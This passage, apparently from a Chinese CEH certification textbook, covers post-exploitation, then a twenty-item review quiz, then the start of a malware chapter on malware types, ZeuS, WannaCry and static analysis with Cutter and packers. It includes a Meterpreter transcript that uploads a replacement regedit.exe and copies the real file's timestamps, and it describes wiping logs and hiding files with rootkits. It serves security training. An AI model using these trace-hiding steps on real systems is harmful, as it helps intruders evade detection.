## 图 7.4 在 Windows 中使用备用数据流

将可执行文件存储到备用数据流（ADS）中的一个挑战在于，它们不再能直接从 ADS 执行。你需要先提取可执行文件再运行，而不是试图从单独的数据流中调用它。这有助于保护系统免受攻击者的攻击，因为常规目录列表（包括 Windows 资源管理器）都不会显示 ADS 存在的任何迹象。文件大小仅显示主数据流，对其他数据流一概不提。这使得它在隐藏数据方面非常有效，只不过在隐藏你想直接执行的数据方面并不是最高效的。

Windows 系统上的另一种可能性是卷副本服务。这是 Windows 在运行中的系统上存储卷备份的一种方式。Windows 创建这些副本以维护文件的版本，以便在需要回滚时使用。虽然可以挂载其中一个卷副本并操作其中的文件，但这比较困难。这是一种隐藏数据的可能性，不过它并不是最佳方法，因为处理起来可能非常麻烦。

## 时间管理

文件系统中的所有文件都有关联的日期和时间。你通常会为每个文件看到修改、访问和创建日期。如果你试图用一个包含你创建的负载的木马替换文件系统中的常见文件，它将带有你上传文件的时间戳。这会使其更容易被检测到。相反，你可以修改文件的时间。同样，我们求助于 Meterpreter。在以下代码中，你可以看到使用 timestamp 来操纵文件时间。使用 timestamp，我们可以设置上传文件的时间，这些时间与合法文件上的时间戳相同。当我们将替换文件移入位置时，它将具有正确的时间。

### 文件时间戳

```
meterpreter > upload regedit.exe
[*] uploading : regedit.exe -> regedit.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): regedit.exe -> regedit.exe
[*] uploaded : regedit.exe -> regedit.exe
meterpreter > timestamp regedit.exe -f /windows/regedit.exe
[*] Pulling MACE attributes from /windows/regedit.exe
```

每当你操作文件时，仅仅是触碰它就会调整文件上的时间值。例如，你会改变修改时间和访问时间。作为掩盖痕迹的一种方式，你可以确保将你触碰过的文件的时间值调整回更改文件之前的状态。

## 总结

一旦你收集了关于目标的所有信息——网络、系统、电子邮件地址等——下一步就是利用漏洞。利用已识别漏洞有多种原因，与仅仅证明你能做到无关。最终目标是改善你所合作组织的安全态势和准备状况。这意味着你利用漏洞的原因是为了证明它们的存在，而不仅仅是误报。此外，你利用漏洞是为了收集更多信息，以利用更多漏洞来证明它们的存在。最终，一旦你完成测试并识别出漏洞，就可以将它们报告给你的雇主或客户。

为了利用漏洞，你需要一种搜索利用程序的方法，而不是被期望自己编写所有利用程序。存在在线利用程序仓库，例如 exploit-db.com。其中一些在线仓库比其他更安全。例如，你可以去 Tor 网络，在那里也寻找利用程序。然而，这样做存在几个潜在问题。你在那里获得的内容可能不安全，尤其是当你下载你不理解的二进制文件或源代码时。如果你更倾向于将利用程序仓库保持在本地，例如当你不确定是否始终有互联网访问时，你可以下载 exploit-db 仓库。还有一个名为 searchsploit 的搜索脚本，可以帮助你识别与可能漏洞匹配的利用程序。

一旦你利用了一个系统，你会考虑采取几个步骤，这些步骤不仅能模拟攻击者的行为，还能让你持续访问被攻破的系统以及网络中的其他系统。例如，你可以从被攻破的系统中获取密码。一旦你使用像 John the Ripper 或 彩虹表这样的工具破解了密码，这些密码可能会被用于其他系统。在 Windows 域中，你肯定会发现用户名可能在多个系统之间通用，而且本地管理员密码也常在多个系统之间共用。

你可能会发现有些网络无法从外部访问。一旦你攻破了一个系统，就可以转向那些其他网络。你所做的是使用被攻破的系统作为路由器。你会调整路由表，将流量推送通过你与远程系统之间的连接。该系统随后会将数据包转发到网络上的其他系统。

为了完成许多任务，你需要拥有管理员权限。这可能需要权限提升。这可能由 Meterpreter 自动完成，但更可能的是你需要利用一个本地漏洞，在该漏洞被利用后给你管理员权限。Metasploit 可以在这方面提供帮助，但你也可能需要找到其他在本地运行的利用程序。你可能需要提升权限的一件事是维持持久性，这意味着你想要时总能重新进入系统。不需要提升权限也有方法可以做到，但获得管理员权限始终是有帮助的。

你还会想要掩盖痕迹以避免被检测到。这可能包括擦除或操纵日志。提升权限在此也很有用。在被攻破的系统上隐藏文件有多种方法。这肯定有助于防止随意观察。真正隐藏文件和进程可能需要 rootkit。你也可以操纵文件上的时间戳，如果你在修改系统提供的文件，这可能是必要的。

## 复习问题

答案可在附录中找到。

- 1. 作为文件元数据的一部分，通常存储哪三个时间？
  - A. 移动，添加，更改
  - B. 修改，访问，删除
  - C. 移动，访问，更改
  - D. 修改，访问，创建

- 2. 从普通用户帐户获取管理员权限称为什么？
  - A. 权限提升
  - B. 帐户迁移
  - C. 权限迁移
  - D. 帐户提升

- 3. John the Ripper 的单一破解模式（默认模式）做什么？
  - A. 检查每个可能的密码
  - B. 使用已知信息和变形规则
  - C. 使用内置单词列表
  - D. 使用单词列表和变形规则

- 4. 使用彩虹表的权衡是什么？
  - A. 磁盘空间优先于速度
  - B. 准确性优先于磁盘空间
  - C. 速度优先于准确性
  - D. 速度优先于磁盘空间

- 5. 以下哪项是针对本地漏洞使用利用程序的原因？
  - A. 网络转向
  - B. 日志操纵
  - C. 权限提升
  - D. 密码收集

- 6. 当你操纵文件上的时间戳时，这称为什么？
  - A. 时间戳
  - B. 时间戳记
  - C. 元踩踏
  - D. 元操纵

- 7. 攻击者会在 Windows 系统上使用备用数据流来做什么？
  - A. 隐藏文件
  - B. 运行程序
  - C. 存储 PowerShell 脚本
  - D. 阻止文件

- 8. 以下哪些技术可能用于维持对系统的访问？
  - A. Windows 注册表中的运行项
  - B. 备用数据流
  - C. Linux 上的 .vimrc 文件
  - D. PowerShell

- 9. 如果你要寻找可用于针对已知漏洞的可靠利用程序，你会使用什么？
  - A. Tor 网络
  - B. Meterpreter
  - C. msfvenom
  - D. Exploit-DB

- 10. 攻击者使用 Meterpreter 中的 clearev 命令可能试图做什么？
  - A. 运行利用程序
  - B. 操纵时间戳
  - C. 操纵日志文件
  - D. 远程登录

- 11. 在你获得系统访问权限后发现自己是用户 www-data。在获得访问权限后不久，你可能会尝试做什么？
  - A. 转向另一个网络
  - B. 提升权限
  - C. 擦除日志
  - D. 利用 web 浏览器

- 12. 你已在被攻破的系统上安装了多个文件和进程。你还应该考虑安装什么？
  - A. 注册表项
  - B. 备用数据流
  - C. Rootkit
  - D. Root 登录


13. 对受损系统进行横向移动能获得什么？
A. 数据库访问权
B. 通往额外网络的路由
C. 更高级别的特权
D. 持久访问

14. 你会使用程序 rtgen 来做什么？
A. 生成字典
B. 生成彩虹表
C. 生成防火墙规则
D. 持久访问

15. 以下哪项是利用客户端漏洞的方法？
A. 向 Web 服务器发送畸形数据包
B. 发送大 ICMP 数据包
C. 发送精心构造的 URL
D. 暴力破解密码攻击

16. 进程注入的一个结果是什么？
A. 隐藏进程
B. Rootkit
C. 备用数据流
D. 隐写术

17. 你会使用什么工具来攻破系统并执行后利用操作？
A. Nmap
B. John the Ripper
C. searchsploit
D. Metasploit

18. 哪个应用程序常是客户端攻击的常见目标？
A. Web 服务器
B. Web 浏览器
C. Web 应用程序防火墙
D. Web 页面

19. 使用 Rootkit 有哪两个优势？
A. 安装备用数据流和注册表项
B. 创建注册表项和隐藏进程
C. 隐藏进程和文件
D. 隐藏文件和注册表项

20. 你可以使用什么从受损系统中获取密码哈希？
A. John the Ripper
B. Mimikatz
C. 彩虹表
D. 进程转储


# 第 8 章
# 恶意软件

本章将涵盖以下 CEH 考试主题：
- 恶意软件操作
- 反恶意软件系统与程序


恶意软件是一门大生意。不仅世界上有数以亿计的恶意软件家族和变种，以及未知数量的开发该恶意软件的程序员，还有至少几十家公司在开发反恶意软件解决方案。从事编写恶意软件的开发人员受雇编写该软件，预计出售恶意软件，或指望从恶意软件操作中获利。图 8.1 显示了 AV-Test 研究所识别出的新恶意软件样本数量。这是过去两年的按月数据。你可以看到，在此期间，每月往往有超过 1000 万个新恶意软件样本。

### 图 8.1 AV-Test 研究所恶意软件统计

### 新增恶意软件

| 月份 | 数值 |
|---|---|
| Oct 16 | 7.63 m |
| Nov 16 | 7.48 m |
| Dec 16 | 7.95 m |
| Jan 17 | 8.85 m |
| Feb 17 | 7.74 m |
| Mar 17 | 9.23 m |
| Apr 17 | 8.56 m |
| May 17 | 9.58 m |
| Jun 17 | 8.42 m |
| Jul 17 | 7.17 m |
| Aug 17 | 8.65 m |
| Sep 17 | 7.60 m |
| Oct 17 | 17.45 m |
| Nov 17 | 14.42 m |
| Dec 17 | 14.00 m |
| Jan 18 | 13.70 m |
| Feb 18 | 9.29 m |
| Mar 18 | 11.93 m |
| Apr 18 | 13.86 m |
| May 18 | 11.02 m |
| Jun 18 | 11.76 m |
| Jul 18 | 11.95 m |
| Aug 18 | 11.77 m |
| Sep 18 | 7.84 m |

尽管我们使用恶意软件这一统称（它是 malicious 和 software 两个词的合成词），但存在多种不同类型的恶意软件。对恶意软件进行分类可能很复杂。某些恶意软件会归入多个类别，因为这并不总是取决于恶意软件如何传播或感染；有时讨论它的功能更有用。为了了解恶意软件的功能，有必要有人对其进行分析。这可以动态或静态完成。当然，你也可以通常依赖他人的分析。

如今恶意软件通常是更大事物的一部分，并不严格限于在系统中孤立存在，因此了解随恶意软件感染而来的基础设施很有帮助。这也有助于识别恶意软件感染，因为监控网络的人可能会看到相关的网络流量。在道德黑客方面，你可能希望创建自己的恶意软件。这可以在不创建任何必然具有恶意的东西的前提下完成，但如果你希望在测试中投放自己的恶意软件，并为自己提供持久访问，那么有方法可以做到这一点。

当然，恶意软件伴随着反恶意软件解决方案。说 antivirus 已不再那么简单，因为反恶意软件不仅仅是传统的防病毒解决方案。有多种解决方案可用于防范恶意软件。了解它们的工作原理也可以为你提供有关如何潜在避免或规避恶意软件的详细信息。

## 恶意软件类型

这可能会有点令人困惑，仅仅是因为单个恶意软件样本可能被归入多个类别。然而，我们将从不同角度思考恶意软件。有些与恶意软件如何在系统之间传播有关。另一些与恶意软件表现出的行为有关。你还可能发现，没有一种恶意软件是独立存在的，通常还会伴随其他类型。在谈到不同的行为类型时，这尤其正确。某些行为恶意软件类型自然而然地与其他类型并存。

浏览不同类型的恶意软件，你将开始了解当前格局的复杂性。这包括恶意软件的用途及其用户。

### 病毒

由于用于防止或根除恶意软件的软件通常称为防病毒软件，你可能已经猜到，病毒是恶意软件最常见的名称之一。当然，并非所有恶意软件都是病毒，但所有计算机病毒都是恶意软件。病毒需要用户干预才能感染系统。用户必须执行某些操作来运行病毒。一旦发生这种情况，病毒就会感染系统，可能通过向其他程序注入代码，使得当这些程序运行时，病毒仍保留对受感染系统的控制。每次运行受感染的程序时，系统都会重新感染，即使原始可执行文件和进程已被删除。为了删除病毒，需要删除其所有实例。

病毒至少自 20 世纪 70 年代初就已存在，尽管自我复制计算机程序的理论自 1949 年以来就已存在。计算机病毒的早期示例是 Creeper，它感染了 ARPANet 上的系统。该病毒仅自我复制，除了隔离和删除所花费的时间外，未造成任何损害。

这并非无关紧要，因为处理病毒可能非常耗时。Creeper 没有删除任何文件，也没有使任何系统无法使用。

个人计算机上的第一个病毒是 Elk Cloner。它也仅自我复制。在 Elk Cloner 的案例中，它将自身复制到插入系统的软盘上。这些软盘随后会被带到其他系统，感染该处的操作系统，以便该程序会感染插入该系统的任何软盘。

无论病毒及其功能如何，都有一些共同元素。每个病毒都具有识别要感染的程序并将自身复制到该程序中的能力。这并不意味着病毒的工作方式仅限于感染单个程序然后停止。在某些情况下，它会将自身的多个副本放置到文件系统上。一个示例是 I Love You 病毒，它将照片和其他图像等媒体文件替换为同名文件，只是添加了 .vbs 扩展名，这意味着它是 Visual Basic Script (VBScript) 文件。每当有人尝试查看自己的照片时，实际上执行的是 VBScript，确保系统重新感染。

计算机病毒据说具有与生物病毒相同的阶段。病毒有休眠阶段，处于非活动状态，等待触发器。触发阶段是病毒被用户操作或其他定义事件触发的时候。触发器可能是打开电子邮件、启动文件，或者甚至是达到某个特定日期和时间。等待特定时间的病毒有时称为逻辑炸弹。还有传播阶段，在此期间病毒会尝试通过感染其他文件或程序将自身传播到可能的位置。它还可能尝试通过电子邮件将自身发送给其他受害者。最后是执行阶段，病毒在此期间执行其编写目的。这可能是恶意、良性或仅仅是麻烦的操作。

病毒可能是驻留内存的。这意味着当它感染系统时，它会保留在内存中。这通常意味着它作为操作系统的一部分安装自身，因此在系统启动时加载到内存中，并一直保留直到系统关闭。由于始终在运行，驻留内存病毒可以根据需要扫描、感染和重新感染。如果它是非驻留的，病毒必须被执行。病毒执行、扫描，并在必要时感染，然后执行。一种非驻留病毒类型是宏病毒。这是一种作为文档的一部分以脚本形式执行的病毒。例如，Word 文档可以包含宏，这些宏是启动并在文档打开时执行的短脚本。该病毒可以通过附加到宏上，然后发送文档来传播。许多其他文档格式支持脚本执行，包括可移植文档格式 (PDF)，所有格式都可能容易受到此类病毒的影响。

### 蠕虫

病毒需要某些外部协助来传播自身。相比之下，蠕虫最初被启动，所有后续感染都是蠕虫自行从一个系统移动到另一个系统的结果。这称为自播。计算机蠕虫的概念已有数十年历史。事实上，最早且最具破坏性的事件之一发生在 1988 年。这是由一名名叫 Robert T. Morris 的研究生编写的程序。


它旨在利用 Unix 程序中的多个漏洞，以便在系统之间横向移动。该程序的有效载荷未执行任何操作。其唯一目的是展示从一个系统移动到另一个系统的能力。尽管如此，停机和清理所产生的成本非常大。按低端估计，成本为 214,141 美元（按 2018 年美元计算）。成本高达超过 2100 万美元。

通常，蠕虫被认为本质上是恶意的，但并不一定如此。当然存在臭名昭著的蠕虫，例如 Code Red 和 Nimda，它们在全球范围内造成了大量破坏。然而，也有像 Welchia/Nachi 这样的蠕虫。该蠕虫的意图是移除另一种蠕虫 Blaster，并修补系统，使其不再易受 Blaster 攻击。即使在面对蠕虫时，清除像 Blaster 这样的恶意软件也不够。你可以清除恶意软件，但如果不移除蠕虫利用的漏洞，蠕虫就会从其他来源重新感染。

无论作者的意图如何，蠕虫的问题在于资源消耗，以及清理恶意软件所需的时间和资源数量。蠕虫通常是不加区分的。如果它们能找到一个系统，并且其被编程用来利用的漏洞存在于该系统上，它们就会尝试感染该系统。这包括已经感染过的系统——一旦利用了漏洞，它们可能会检查该系统上是否已经存在蠕虫实例。当多个蠕虫实例可能同时尝试攻击单个主机时，网络流量会增加。这只是对企业网络造成影响的起点。利用漏洞，尤其是同时多次利用，可能会消耗处理器和网络资源。也许影响很小，无人察觉，但极具毒性的蠕虫可能会产生重大影响，这已多次发生。

需要牢记的重要一点是，蠕虫能够自我传播。它不需要任何用户协助。这意味着它有能力连接到远程系统并在其上自行执行。这可能是网络面临漏洞的结果。应对蠕虫的一个重大挑战是，一旦蠕虫进入环境，就能利用信任关系和对网络通信的宽松限制。系统通常被允许与同一网络上的其他系统通信。当网络内部的两个系统相互通信（称为东西向通信）时，通常被认为是受信任的，因为两个系统均由组织拥有和维护。预期是它们受企业控制，而不是受攻击者控制。

蠕虫不一定必须是可执行文件。已有蠕虫利用电子邮件程序和联系人列表进行传播。你可能会收到一封包含嵌入脚本的 HTML 电子邮件。一旦电子邮件客户端呈现 HTML，脚本就会运行，并利用电子邮件客户端中的漏洞或其他配置不当的机制。蠕虫会访问联系人列表，并将自身副本发送给列表中的每个人。这也会导致重新感染的潜在风险，即恶意软件可能已被识别并移除。如果你在我的联系人列表中，那么很有可能要么我在你的列表中，要么你认识有人将我列入他们的联系人列表。在某个时刻，一条消息很可能会回到我这里。这也是蠕虫可能会消耗资源的另一个领域。由于大量消息来回传递，消息队列会被堵塞，使合法消息更难传递，并且需要管理员手动进入并清除队列。

## Trojan

特洛伊木马实际上只是另一种类型的恶意软件，通常是一种病毒。使其与众不同的是，它伪装成并非其本身的东西。虽然可能广为人知，但它的名称源自所谓的特洛伊木马。据传，希腊人在与特洛伊人作战时，为特洛伊人建造了一匹作为“礼物”的木马。礼物木马内部藏着希腊人。它并非木马雕像，实际上是运送希腊士兵的工具，这些士兵等到夜幕降临，悄悄从木马中爬出，从内部攻击了特洛伊城。

同样，被称为特洛伊木马的恶意软件看起来像是某种无害的东西，通常是你自认为熟悉的东西。相反，它会感染你的系统。因为它期望用户参与，运行一个用户认为并非实际恶意软件的程序，特洛伊木马只是一种特定类型的病毒。它感染你的系统，需要用户参与，并且是恶意软件。这就是病毒。你可以将其视为一种社会工程学，用户被诱骗执行恶意软件，因为它们让用户相信该软件是某种并非其本身的东西。

顺便说一下，它不一定必须是可执行文件。有可能收到一份你认为是，比如说，发票或收据的文档。你打开文件查看它是什么，然后就被感染了。这在社会工程学和电子邮件中是一种常见方法。如果你碰巧有垃圾邮件或 Spam 文件夹，你可能会看到带有附件的电子邮件。这些附件很可能是被感染的 PDF 文件。通常，你可能会发现有人正在向你发送他们声称是发票或某种跟踪文档的东西。这与必须访问 URL 的情况不同。它可能是一个附件，或者仅仅是一个基于 HTML 的电子邮件消息。

## Botnet

僵尸网络可以是病毒或蠕虫有效载荷的一部分，也可能由特洛伊木马安装。当你听到僵尸网络这个词时，它实际上是指正在安装的僵尸网络客户端。僵尸网络是被特定恶意软件家族感染的终端设备的整个集合。僵尸网络客户端是一小段软件，其目的是连接回命令和控制基础设施（C&C 或 C2）。我们将在稍后的“恶意软件基础设施”部分深入了解这种基础设施。客户端从 C&C 基础设施获取命令。僵尸网络可用于多种目的，但主要目的是为其所有者产生收入。客户端的目的是促进该过程。

一个例子是 ZeuS 僵尸网络。这是最早的恶意软件之一，附带了一个你可以购买并用来创建自己的僵尸网络客户端的软件包。ZeuS 自带一个生成器，它读取配置文件，然后创建可用于感染系统的恶意软件可执行文件。你可以在图 8.2 中看到生成器。ZeuS 的目标，以及因此配置的目标，是从被感染系统窃取银行信息。这使攻击者能够使用身份验证凭据从这些银行窃取资金。你可以根据要攻击的特定银行配置 ZeuS。

图 8.2 ZeuS 生成器


一旦 ZeuS 被安装在目标系统上，它就为攻击者提供了远程访问系统的方法。ZeuS 可以捕获按键并提取银行账户信息以传输给攻击者。当然，窃取并非僵尸网络客户端能做的唯一事情。僵尸网络也用于发送垃圾邮件、托管可在不同系统之间转移的 Web 服务器，或参与分布式拒绝服务攻击。在攻击者拥有数百万台被攻破系统的情况下，他们能够发送每秒数百千兆比特甚至每秒万兆比特的攻击流量，足以让许多企业断网，使其客户无法连接。

## Ransomware

勒索软件是另一种类型的恶意软件。勒索软件的目的是从受害者那里敲诈钱财。勒索软件是一种程序，它会加密受害者硬盘的一部分，用于存储个人文件。在某些情况下，可能是重要的业务文档。攻击者提供指示，要求受害者汇款，通常使用像比特币这样的加密货币。其背后的想法是，攻击者在支付赎金后会提供解密密钥。有了解密密钥，受害者就能找回有价值的数据。通常有一个时间限制，数据将在期限后被销毁，只是为了给受害者施加额外压力。

最著名的勒索软件家族之一是 WannaCry。这是一种影响了全世界数十万系统的恶意软件，人们已经


他们未能将系统保持在最新的补丁级别。图 8.3 显示了如果 WannaCry 感染了你的系统，你会收到的消息。幸运的是，微软和恶意软件研究人员的快速行动限制了全球受影响设备的总数。即便如此，据估计造成的损失仍高达数百万至数十亿美元。

## 图 8.3 WannaCry 勒索要求


WannaCry 通过使用美国国家安全局 (NSA) 开发的一个漏洞利用程序传播。该漏洞利用程序被称为 EternalBlue，它是一组由名为 The Shadow Brokers 的团体发布的信息的一部分，该团体入侵了 NSA，以获取 NSA 网络安全和网络战员工所使用的工具和策略的信息。该信息发布后没几个月，WannaCry 开始传播。

虽然 WannaCry 肯定是勒索软件，但这仅指其功能，而与其传播方式无关。那么，它是病毒还是蠕虫？由于它使用远程漏洞感染系统，因此能够自动连接到其他系统并感染它们。由于它能够自主传播，因此它是一种蠕虫。这是一个示例，说明单个恶意软件如何被归类到多个类别中。WannaCry 是一种勒索软件蠕虫。

## 投放器

投放器是一种通常不会单独出现的恶意软件。投放器被用作起点。一旦安装到你的系统上，它就会开始抓取其他软件进行安装。这可能包括后门、按键记录器、僵尸网络客户端、木马或对攻击者有用的其他软件。使用投放器而不是简单地包含其随后安装的所有功能，可能有多种原因。可能是为了将初始感染的大小降至最小。也可能是投放器可以规避检测，而其他软件则更容易被检测到。一旦攻击者想要在系统上的所有软件都就位，投放器就可以删除自身，以便无法被找到。

这种多阶段攻击在检测和分析两方面都增加了额外的层次。投放器还可以包含充当 Tor 节点的功能，以便从 Tor 网络中获取恶意软件。这也有助于避免检测，尤其是 Tor 可能不使用可识别的常见路径时。此外，它还会利用加密，如果安全设备无法捕获和代理已知的超文本传输协议 (HTTP) 路径（端口），那么检测起来就会困难得多。

## 恶意软件分析

在开始分析之前，你应该知道我们将使用多种工具进行分析。与其获取所有工具并逐个安装，不如使用一个会为你安装所有工具的软件包，这样可能更容易。这次我们不会使用 Kali。相反，我们将使用基于 Windows 的工具。这存在一些危险。大多数恶意软件是为 Windows 系统编写的，因为它是主要的桌面平台，也是最可能被容易受到恶意软件和社会工程攻击影响的人使用的平台。由于你可能会处理针对 Windows 系统编写的恶意软件，因此在使用时必须非常小心。任何错误都可能让你发现自己正在处理一个已被攻破的系统。

要安装我们需要的工具，可以查看由 FireEye Labs 高级逆向工程 (FLARE) 团队成员编写的一个 PowerShell 脚本。该脚本可在 [FLARE 团队的 GitHub 站点](https://github.com/fireeye/flare-vm) 上找到。install.ps1 脚本将自动安装所有必要工具，使用 Chocolatey 包管理器。

我们将探讨两种恶意软件分析类型。第一种是静态分析，它通过查看代码来进行分析。我们将使用能够显示可执行代码而不实际运行程序的工具。如前所述，运行程序是我们最不想做的事情。第二种恶意软件分析类型是动态分析。使用动态分析，我们实际运行恶意软件并观察其行为。如你所料，这需要规划、准备和大量的小心。我们可以使用一些技术来实现这一点。当然，不仅要运行恶意软件，还要监控系统，以便确定恶意软件在做什么。

进行此分析的一种方法是使用虚拟环境。这样做有几个原因。其中之一是能够对环境进行快照。这意味着你始终可以恢复到已知的干净状态，前提是你记得拍摄快照。这就是需要小心的地方。你需要确保在正确的时间拍摄快照，并且理想情况下跟踪每个快照的内容。某些虚拟机 (VM) 软件允许你为快照添加标签。默认情况下，它可能只会在快照上添加日期和时间戳。日期和时间戳不够描述性，所以如果只有这些用于识别快照，你可能根本不知道它处于什么状态。

虚拟机软件很容易获得。设置实验室有几种方法。你可以使用像 VMware 这样的虚拟机管理程序在单台机器上搭建实验室。这可以让你拥有多个虚拟系统。它还可以让你控制网络，使恶意软件无法外联。然而，在虚拟机中进行恶意软件分析存在一个挑战。某些恶意软件能够识别自己正在虚拟机中运行，在这种情况下可能不会表现出任何正常行为。这是为了让它看起来是良性的并规避分析。这是静态分析如此重要的原因之一——因为你不依赖恶意软件在受监控条件下暴露自身。

### 静态分析

恶意软件静态分析是指在不运行恶意软件样本的情况下查看其详细信息。这可以包括文件属性以及实际代码。不过，这需要大量的实践和技能。当我说我们在查看实际代码时，我的意思是我们在查看程序的反汇编，即回到汇编语言，而不是二进制操作码。毫不奇怪，要想在静态分析的这一方面做得好，你需要了解汇编语言。否则，你只是盯着一堆对你来说意义不大的助记符和大量十六进制值。查看程序文件的反汇编的好处是，你是在查看程序本身。这不像是因为哈希值改变而隐藏恶意软件的存在，导致杀毒软件无法检测它。如果你能从反汇编中读懂程序，你就会知道程序在做什么。

不过，我们将从简单的开始。我们将查看文件的一些属性。此时我们查看什么并不重要，因为所有程序都会有这些属性，我们将查看我用 C 语言编写的一个简单程序。属性值会因程序而异，我们将花一些时间查看某些属性，以确定它是否可能是恶意软件，以及该恶意软件可能在做什么。为此，我们将使用一个名为 Cutter 的程序。

作为开始，我们可以查看可执行文件的概览，如图 8.4 所示。从概览中可以看出可执行文件面向什么 CPU 架构，例如它是 32 位还是 64 位。此外，我们可以确定文件格式是可移植可执行文件。可移植可执行 (PE) 文件格式将可执行代码与操作系统加载器将程序放入内存并开始执行所需的信息封装在一起。PE 文件不仅仅是 .EXE 文件。它们也可以是动态链接库 (DLL)。


## 图 8.4 Cutter 中的 PE 概览

| Name | Size | Address | End Address | Entropy |
| :--- | :--- | :--- | :--- | :--- |
| .CRT | 512 | 0x00409000 | 0x00409200 | 0.27091923 |
| .bss | 0 | 0x00407000 | 0x00407000 | 0.00000000 |
| .data | 512 | 0x00403000 | 0x00403200 | 0.67055940 |
| .debug_abbrev | 512 | 0x00404000 | 0x00404200 | 1.64302401 |
| .debug_aranges | 512 | 0x00400000 | 0x00400200 | 0.21630991 |
| .debug_frame | 512 | 0x00400000 | 0x00400200 | 0.60834407 |
| .debug_info | 4096 | 0x00400C00 | 0x00404C00 | 5.20530666 |
| .debug_line | 512 | 0x00406000 | 0x00406200 | 3.23045935 |
| .idata | 2560 | 0x00408000 | 0x0040A600 | 3.49846220 |
| .pdata | 1024 | 0x00405000 | 0x00405400 | 2.60281113 |
| .reloc | 3072 | 0x00404000 | 0x00404C00 | 4.93296316 |
| .text | 7880 | 0x00401000 | 0x00402F00 | 5.92407755 |
| .tls | 512 | 0x00404000 | 0x00404200 | 0.19743808 |
| .xdata | 1024 | 0x00406000 | 0x00406400 | 2.59930829 |

如前所述，PE 文件的目的是为加载程序提供信息，将程序的所有元素加载到内存中。我们可以使用 Cutter 查看不同的元素。图 8.5 显示了示例程序中的程序节列表。程序编译后会被拆分为多个节，这些节带有标签，以便操作系统加载器知道如何处理它们。PE 文件中可能包含多个节，但我们将重点介绍其中几个。第一个节是 .text 节，它包含所有可执行代码。另一个节是 .data 节，它包含程序中所有已初始化的数据。这意味着这些数据在编译时是已知的。在程序编译时定义并赋值的变量存储在 .data 节中。还有大量数据仅在运行时才已知并赋值，这些数据存储在其他地方。

## 图 8.5 可移植可执行文件节

| Name | Size | Address | End Address |
| :--- | :--- | :--- | :--- |
| .bss | 0 | 0x00407000 | 0x00408000 |
| .CRT | 512 | 0x00409000 | 0x00409200 |
| .data | 512 | 0x00404000 | 0x00405000 |
| .debug_abbrev | 512 | 0x00404000 | 0x00404900 |
| .debug_aranges | 512 | 0x00400000 | 0x00400400 |
| .debug_frame | 512 | 0x00401000 | 0x00401100 |
| .debug_info | 7680 | 0x00404000 | 0x00406000 |
| .debug_line | 512 | 0x00400000 | 0x00401000 |
| .eh_frame | 2560 | 0x00406000 | 0x00407000 |

## 加壳程序与加密程序

特意提及这些节的原因在于，你可以从中获得一些线索，判断正在查看的程序是否为恶意软件。有一类被称为 packers 的程序可以传播恶意软件。这类程序拥有非常小的可执行节。该小型可执行文件（有时称为 stub）的目标是获取真实程序，并对其进行解包（因为它被压缩了）或解密。一旦可执行代码被解压缩或解密，就会启动一个新线程或分叉进程，并将控制权移交给这些可执行代码。

加壳程序和加密程序用于帮助绕过杀毒软件。杀毒软件唯一能看到的是 stub 程序。压缩可能是杀毒软件无法处理的方案，加密也是如此。此外，没有密钥，杀毒软件无论如何都无法查看数据内容。杀毒软件通常基于签名工作。对加密密钥进行简单更改就可能改变任何可执行文件的签名，这意味着它可以逃避杀毒软件。更改压缩参数也会改变签名。因此，分析恶意软件非常重要。

请牢记图 8.4 中所示的不同节及其大小的信息。通常，.text 节将是最大的。图 8.4 的情况也是如此。对于任何被加壳或加密的程序，位于 .text 节中的 stub 程序会相对较小，而 .data 节会很大。尽管 Cutter 是分析可执行文件的非常通用的工具，但它无法识别被加壳的可执行文件。为此，我们可以使用另一款程序，例如 PE Detective。PE Detective 的一个优势是，我们可以扫描整个目录来识别程序。在图 8.6 中，你可以看到来自某个目录的恶意软件集合的输出。你会看到其中几个已被不同的 packers 加壳。一种常见的 packer 是 UPX，你可以看到这里使用了它。

## 图 8.6 查找加壳程序


你还会注意到，PE Detective 可以确定用于编译程序的编译器，这可能值得关注。有趣的是，将这些程序重新在 Cutter 中打开时，可执行文件有一些值得一看的属性。首先，与我们之前查看的程序不同，之前我们可以看到程序中的不同节以及显示其相对大小的图表，但使用 UPX 加壳的可执行文件中没有节。不过，通过查看另一组详细信息，我们可以了解发生了什么。缺少至少一个 .text 节是可疑的，但当我们查看入口点（操作系统被告知开始执行的内存地址）时，我们可以在图 8.7 中看到一些有趣的内容。

## 图 8.7 恶意软件的入口点


在图 8.7 顶部，有一个函数标识符。这是指向内存中某个位置的标签。你可以看到该标识符是 UPX1:entry0。这告诉我们程序已用 UPX1 加壳，而 entry0 是解压缩存根代码的标签。标签 entry0 指示程序的入口点。当然，你可能会得到没有这样明显指标的被压缩可执行文件。不过，UPX 是用于压缩可执行文件的最流行、最常用的程序之一。

## 反汇编

查看程序将要执行什么操作的最有效方法（除了运行它）是查看代码。我们无法查看源代码，但可以对可执行文件进行反汇编。反汇编的过程是获取可执行代码（以 CPU 可理解的操作码（opcodes）形式存储），并将其转换回人类更易理解的形式——汇编语言。当然，汇编语言并非最易读的语言。最好，你能得到比单纯数字更易理解的内容。反汇编将操作码转换为助记符。助记符是一种记忆辅助技术。你通常会看到一种短语，其中短语中每个单词的首字母映射到你需要记住的内容。这是一种助记符。在我们的情况中，我们会得到三个或四个字母来指示每个操作码的作用。

在图 8.8 中，你可以看到一段已被反汇编的程序。有许多程序可以执行反汇编。我们正在查看 Cutter 中的反汇编结果。这只是程序的只读视图。Cutter 并未赋予我们执行程序或以任何方式修改程序的能力。还有其他程序可以执行反汇编，并提供一种控制程序运行的方式。由于我们正在执行静态分析，我们实际上并不想运行它，因此从 Cutter 获得的内容非常理想。

## 图 8.8 Cutter 中的程序反汇编


不过，这时事情变得困难了。为了理解正在发生的事情，我们需要能够阅读汇编语言，而这需要一些练习。高级编程语言为我们提供变量来操作，而汇编语言为我们提供内存来操作。操作码需要处理的任何数据都存储在一种称为寄存器的内存中。这是一种固定长度的内存位置，存储在 CPU 上，因此访问速度非常快。不过，我们需要能够将数据加载到寄存器中，这意味着我们需要类似 mov 操作的东西。正如你所料，它将信息从一个位置移动到另一个位置。在图 8.8 的第二行代码中，你可以看到一个 mov，其中数据从内存位置移动到寄存器中。

